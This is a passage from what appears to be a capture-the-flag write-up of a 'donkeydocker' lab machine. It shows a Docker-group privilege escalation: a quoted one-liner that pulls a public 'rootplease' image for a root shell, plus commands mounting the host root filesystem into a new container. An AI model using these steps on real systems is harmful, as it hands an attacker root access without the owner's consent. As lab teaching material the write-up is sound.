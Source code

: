 Now we seem to be on the Docker host itself. Let's confirm:

```
donkeydocker:~$ docker ps
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                NAMES
12081bd067cc        donkeydocker        "/main.sh default"   2 years ago         Up 4 hours          0.0.0.0:80->80/tcp   donkeydocker
```

We can see the container we were in previously. Now, for the next step, I used as reference this blog post about [Docker privilege escalation](https://fosterelli.co/privilege-escalation-via-docker.html). The highlights are :

> If you happen to have gotten access to a user-account on a machine, and that user is a member of the ‘docker’ group, running the following command will give you a root shell:
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease

> The command you run to perform the privilege escalation fetches my Docker image from the Docker Hub Registry and runs it. The -v parameter that you pass to Docker specifies
> that you want to create a volume in the Docker instance. The -i and -t parameters put Docker into ‘shell mode’ rather than starting a daemon process.

> The instance is set up to mount the root filesystem of the host machine to the instance’s volume, so when the instance starts it immediately loads a chroot into that volume.
> This effectively gives you root on the machine.

And if we look at the groups that orwell is a part of, we can see that he is indeed a member of the docker group:

```
donkeydocker:~$ id
uid=1000(orwell) gid=1000(orwell) groups=101(docker),1000(orwell)
```

Let's look at the available containers now:

```
donkeydocker:~$ docker container ls
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                NAMES
12081bd067cc        donkeydocker        "/main.sh default"   2 years ago         Up 32 minutes       0.0.0.0:80->80/tcp   donkeydocker
```

We can create a new container in the background which is based on the donkeydocker one and mount the host filesystem in it:

```
donkeydocker:~$ docker run -d -v /:/host donkeydocker
103cd9c625b0cf04e1ed173d95e56724051a708300a07d75c20618472eefe863
```

Now we should find the host / contents in the /host directory inside the container. Let's verify that it was created:

```
donkeydocker:~$ docker container ls
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                NAMES
103cd9c625b0        donkeydocker        "/main.sh default"   4 seconds ago       Up 3 seconds        80/tcp               epic_lovelace
12081bd067cc        donkeydocker        "/main.sh default"   2 years ago         Up 34 minutes       0.0.0.0:80->80/tcp   donkeydocker
```
